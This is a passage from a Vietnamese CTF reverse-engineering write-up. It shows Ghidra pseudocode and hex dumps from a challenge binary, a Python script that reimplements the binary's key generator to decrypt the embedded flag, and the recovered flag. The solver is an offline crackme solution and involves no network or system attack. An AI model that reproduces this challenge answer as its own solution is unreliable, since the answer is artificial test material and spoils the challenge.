  local_48[4] = &DAT_0040203c;
  for (local_10 = 0; local_10 < 5; local_10 = local_10 + 1) {
    local_18 = local_48[local_10];
    local_1c = (local_10 * local_10 + (local_10 + 1) * param_1 + 3) % 7;
    local_9 = (local_9 ^ local_18[local_1c]) >> 7 | (local_9 ^ local_18[local_1c]) * '\x02';
  }
  bVar1 = FUN_00401201(local_9,(char)param_1);
  return bVar1;
}

```

**Giai đoạn 4: Trích xuất dữ liệu (Data Extraction)**
Để giải phương trình trên, ta cần tìm các ẩn số.
1. **Lấy Encrypted Data:** Bạn đã vào Ghidra, tìm đến `DAT_00402060` và copy 32 bytes hex.
2. **Lấy nguyên liệu tạo Key:** Hàm KeyGen (`FUN_00401239`) sử dụng 5 mảng dữ liệu nhỏ để tính toán. Chúng ta đã phải lội ngược lên địa chỉ `DAT_00402020` để copy 35 bytes này.

```python collapse={11-25,30-40}
                             DAT_00402020                                    XREF[2]:     FUN_00401239:0040124c(*), 
                                                                                          FUN_00401239:00401253(*)  
        00402020 a8              ??         A8h
        00402021 c5              ??         C5h
        00402022 83              ??         83h
        00402023 a0              ??         A0h
        00402024 42              ??         42h    B
        00402025 2c              ??         2Ch    ,
        00402026 01              ??         01h
                             DAT_00402027                                    XREF[2]:     FUN_00401239:00401257(*), 
                                                                                          FUN_00401239:0040125e(*)  
        00402027 cb              ??         CBh
        00402028 32              ??         32h    2
        00402029 20              ??         20h     
        0040202a f3              ??         F3h
        0040202b cf              ??         CFh
        0040202c 65              ??         65h    e
        0040202d bc              ??         BCh
                             DAT_0040202e                                    XREF[2]:     FUN_00401239:00401262(*), 
                                                                                          FUN_00401239:00401269(*)  
        0040202e 13              ??         13h
        0040202f 79              ??         79h    y
        00402030 b2              ??         B2h
        00402031 29              ??         29h    )
        00402032 74              ??         74h    t
        00402033 61              ??         61h    a
        00402034 e7              ??         E7h
                             DAT_00402035                                    XREF[2]:     FUN_00401239:0040126d(*), 
                                                                                          FUN_00401239:00401274(*)  
        00402035 a7              ??         A7h
        00402036 68              ??         68h    h
        00402037 76              ??         76h    v
        00402038 0a              ??         0Ah
        00402039 4e              ??         4Eh    N
        0040203a 39              ??         39h    9
        0040203b 43              ??         43h    C
                             DAT_0040203c                                    XREF[2]:     FUN_00401239:00401278(*), 
                                                                                          FUN_00401239:0040127f(*)  
        0040203c f1              ??         F1h
        0040203d cd              ??         CDh
        0040203e 12              ??         12h
        0040203f b2              ??         B2h
        00402040 7d              ??         7Dh    }
        00402041 0b              ??         0Bh
        00402042 2d              ??         2Dh    -

```

**Giai đoạn 5: Viết Script giải (Solver)**
Thay vì ngồi tính tay từng ký tự, chúng ta viết lại logic của chương trình bằng Python.
1. **Mô phỏng hàm KeyGen:** Viết lại hàm `FUN_00401239` từ C sang Python (bao gồm các phép xoay bit, XOR, nhân chia...).
2. **Mô phỏng hàm giải mã:** Chạy vòng lặp 32 lần (độ dài flag), mỗi lần tính ra 1 Key, rồi XOR với Encrypted Data tương ứng.
3. **Kết quả:** In ra chuỗi ký tự -> Đó là Flag.
## Python code to exploit 
```python collapse={1-90}
# =================================================================
# DỮ LIỆU TỪ GHIDRA (Bạn đã cung cấp đủ)
# =================================================================

# 1. Encrypted Flag (32 bytes - Lấy từ DAT_00402060)
ENCRYPTED_FLAG = [ 
    0xf8, 0x98, 0x76, 0xfb, 0xc9, 0x0a, 0x03, 0x0d, 
    0x44, 0x3d, 0x6b, 0xa6, 0xc3, 0x25, 0xa8, 0x60, 
    0xfb, 0x57, 0x6c, 0xf3, 0xa1, 0xf0, 0xcf, 0x61, 
    0xe6, 0xe4, 0x45, 0x16, 0x0e, 0x18, 0x3e, 0x27
]

# 2. Key Data Arrays (5 mảng x 7 bytes - Lấy từ DAT_00402020)
DATA_ARRAYS = [
    # Mảng 1: DAT_00402020
    [0xa8, 0xc5, 0x83, 0xa0, 0x42, 0x2c, 0x01], 

    # Mảng 2: DAT_00402027
    [0xcb, 0x32, 0x20, 0xf3, 0xcf, 0x65, 0xbc], 

    # Mảng 3: DAT_0040202e
    [0x13, 0x79, 0xb2, 0x29, 0x74, 0x61, 0xe7], 

    # Mảng 4: DAT_00402035
    [0xa7, 0x68, 0x76, 0x0a, 0x4e, 0x39, 0x43], 

    # Mảng 5: DAT_0040203c
    [0xf1, 0xcd, 0x12, 0xb2, 0x7d, 0x0b, 0x2d]  
]

# =================================================================
# LOGIC GIẢI MÃ (Mô phỏng lại Assembly/C)
# =================================================================

def rol(val, n):
    """Xoay bit trái (Rotate Left 8-bit)"""
    return ((val << n) & 0xFF) | (val >> (8 - n))

def fun_00401201(param_1, char_index):
    """Hàm biến đổi cuối cùng"""
    # C: bVar1 = param_1 ^ param_1 << 3;
    bVar1 = (param_1 ^ (param_1 << 3)) & 0xFF
    
    # C: return bVar1 ^ bVar1 >> 5 ^ param_2 * '='; ('=' là 0x3D)
    res = bVar1 ^ (bVar1 >> 5) ^ ((char_index * 0x3D) & 0xFF)
    return res & 0xFF

def key_gen(index):
    """Tạo key XOR cho từng vị trí ký tự"""
    local_9 = 0 # Giá trị khởi tạo
    
    # Lặp qua 5 mảng dữ liệu
    for k in range(5):
        current_array = DATA_ARRAYS[k]
        
        # Công thức tính index mảng con (từ mã giả C):
        # index_con = (k^2 + (k+1)*i + 3) % 7
        local_1c = (k * k + (k + 1) * index + 3) % 7
        
        # Logic update biến local_9
        xor_val = local_9 ^ current_array[local_1c]
        local_9 = rol(xor_val, 1) # Rotate Left 1 bit
        
    return fun_00401201(local_9, index)

# =================================================================
# MAIN
# =================================================================

flag = ""
print("[-] Đang giải mã từ dữ liệu Hex...")

for i in range(32): # Flag dài 32 ký tự
    try:
        # 1. Tính key cho vị trí i
        key = key_gen(i)
        
        # 2. Lấy byte mã hóa
        target = ENCRYPTED_FLAG[i]
        
        # 3. XOR để lấy ký tự gốc
        decoded_char = chr(target ^ key)
        flag += decoded_char
    except Exception as e:
        print(f"[!] Lỗi tại vị trí {i}: {e}")
        flag += "?"

print("-" * 40)
print(f"[+] FLAG TÌM ĐƯỢC: {flag}")
print("-" * 40)
```

```python
cher 46203 -- /home/kali/Downloads/ctf/nexthunt/huntme2.py 
[-] Đang giải mã từ dữ liệu Hex...
----------------------------------------
[+] FLAG TÌM ĐƯỢC: nexus{f0ll0w_7h3_ch4ng1ng_7r41l}
```


Well that’s all… If there is anything you don’t clear or confusing mail me : [longduiga0123@gmail.com](mailto:longduiga0123@gmail.com) 😽